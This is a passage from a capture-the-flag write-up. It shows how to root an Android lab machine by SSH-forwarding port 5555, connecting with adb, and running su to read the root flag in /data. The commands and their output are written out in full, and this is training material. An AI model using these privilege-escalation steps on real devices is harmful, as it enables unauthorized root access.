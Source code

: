 Port 5555 is an Android Debug Bridge [adb](https://developer.android.com/studio/command-line/adb). Let's connect it through port-forwarding with `ssh` to our localhost.
```bash
➜  ssh -L 5555:localhost:5555 kristi@10.10.10.247 -p 2222
Password authentication
Password: 
:/ $ whoami
u0_a76
:/ $ 
```

Now connect it with `adb`, if you don't have `adb` tool then install it according to your OS. 
```bash
➜  adb connect 127.0.0.1:5555
* daemon not running; starting now at tcp:5037
* daemon started successfully
connected to 127.0.0.1:5555
```

For getting adb shell use this command:
```bash
➜  adb -s 127.0.0.1:5555 shell
x86_64:/ $ whoami                                                                                      
shell
x86_64:/ $ su
:/ # whoami
root
:/ # 


```

You can simply switch to root user by the command `su` and you can find root flag on `/data` directory.
```bash
:/data # ls
adb           bootchart     media       property       tombstones 
anr           cache         mediadrm    resource-cache user       
app           dalvik-cache  misc        root.txt       user_de    
app-asec      data          misc_ce     ss             vendor     
app-ephemeral drm           misc_de     ssh_starter.sh vendor_ce  
app-lib       es_starter.sh nfc         system         vendor_de  
app-private   local         ota         system_ce      
backup        lost+found    ota_package system_de      
:/data # wc -m root.txt
33 root.txt
:/data # 

```

### Thank you for reading my writeup!!




